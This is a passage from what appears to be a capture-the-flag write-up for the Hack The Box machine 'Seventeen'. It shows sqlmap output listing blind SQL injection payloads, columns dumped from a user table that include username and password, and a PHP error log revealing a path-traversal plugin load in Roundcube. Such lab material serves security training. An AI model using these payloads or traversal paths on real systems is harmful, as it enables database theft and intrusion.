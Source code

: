 [11:34:04] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/exam.seventeen.htb'

[*] ending @ 11:34:04 /2022-07-20/
```
Dump columns:
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" -D db_sfms -T user --columns                                                                1 ⨯
        ___
       __H__                                                                                                                                                
 ___ ___[)]_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [)]     | .'| . |                                                                                                                                   
|___|_  [)]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:34:17 /2022-07-20/

[11:34:17] [INFO] resuming back-end DBMS 'mysql' 
[11:34:17] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=426f3125471...3c46e45676'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1565=1565 AND 'Vlli'='Vlli

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 8047 FROM (SELECT(SLEEP(5)))Verc) AND 'RSwQ'='RSwQ
---
[11:34:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: PHP 7.2.34, Apache 2.4.38, PHP
back-end DBMS: MySQL >= 5.0.12
[11:34:19] [INFO] fetching columns for table 'user' in database 'db_sfms'
[11:34:19] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:34:19] [INFO] retrieved: 6
[11:34:19] [INFO] retrieved: user_id
[11:34:21] [INFO] retrieved: int(11)
[11:34:24] [INFO] retrieved: firstname
[11:34:26] [INFO] retrieved: varchar(45)
[11:34:29] [INFO] retrieved: lastname
[11:34:32] [INFO] retrieved: varchar(45)
[11:34:35] [INFO] retrieved: username
[11:34:37] [INFO] retrieved: varchar(20)
[11:34:40] [INFO] retrieved: password
[11:34:43] [INFO] retrieved: varchar(50)
[11:34:46] [INFO] retrieved: status
[11:34:47] [INFO] retrieved: varchar(20)
Database: db_sfms
Table: user
[6 columns]
+-----------+-------------+
| Column    | Type        |

[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)